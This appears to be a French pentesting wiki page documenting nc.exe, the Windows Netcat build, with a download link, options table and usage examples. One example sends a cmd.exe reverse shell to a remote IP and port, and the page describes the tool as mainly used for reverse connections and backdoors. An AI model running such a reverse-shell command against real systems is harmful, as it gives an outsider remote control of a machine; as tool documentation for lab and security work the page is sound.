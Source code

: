 ```yaml
---
title: nc
description: Nc est la version disponible sur Windows de Netcat, Netcat est un utilitaire permettant d'ouvrir des connexions réseau, cet outil peut être utilisé pour de nombreux usages
published: true
date: 2025-05-04T14:55:39.016Z
tags: outil, windows
editor: markdown
dateCreated: 2024-07-12T16:56:06.120Z
---
```


# Introduction

Nc est la version disponible sur Windows de Netcat, Netcat est un puissant outil permetttant l'écoute de ports ou encore l'ouverture de connexion réseau, cet outil est principalement utilisé pour se connecter à une une connexion inverse ou backdoor, mais il a d'autres nombreux usages.

> Nc est disponible au téléchargement ici: https://github.com/int0x33/nc.exe/
> {.is-info}

# Syntaxe

`nc.exe [ip/port/les deux] [options]`

# Options

| Option          | Description                                                         |
| --------------- | ------------------------------------------------------------------- |
| `-l`            | Mode écoute (listen), attendre une connexion entrante               |
| `-v`            | Mode verbose, affiche des informations supplémentaires              |
| `-p [port]`     | Spécifie un port d'écoute et aussi là où la connexion est transmise |
| `-e [commande]` | Spécifie la commande à éxectuer lorsqu'une transmission est établie |

# Exemples

Écoute sur sur le port 8080

`nc.exe -l -p 8080`

Envoi une connexion vers l'ip 10.10.14.3 sur le port 8443 qui éxecutera "cmd.exe" lors de l'établissement de la connexion

`nc.exe 10.10.14.3 8443 -e cmd.exe`
